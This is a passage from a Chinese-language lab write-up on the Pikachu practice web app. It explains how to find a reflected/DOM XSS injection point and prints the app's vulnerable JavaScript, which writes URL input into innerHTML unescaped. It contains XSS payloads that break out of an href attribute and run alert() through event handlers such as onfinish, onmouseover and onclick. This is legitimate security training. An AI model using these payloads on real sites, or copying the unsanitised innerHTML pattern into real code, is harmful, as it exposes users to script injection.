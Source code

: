 **漏洞利用**

输入`test#!12` 测试，F12 查看源代码，找出可注入点是 `<a href="test#!12">what do you see?</a>` ，对 href 构造一个闭合，这样就能实现对 a 标签的一个“控制”的作用。

payload 构造如下 `'> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

![image](../../../img/渗透/实验/pikachu/10.png)

### DOM 型 xss-x
**核心代码**
```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试：'><img src="#" onmouseover="alert('xss')">
                    //试试：' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>
```
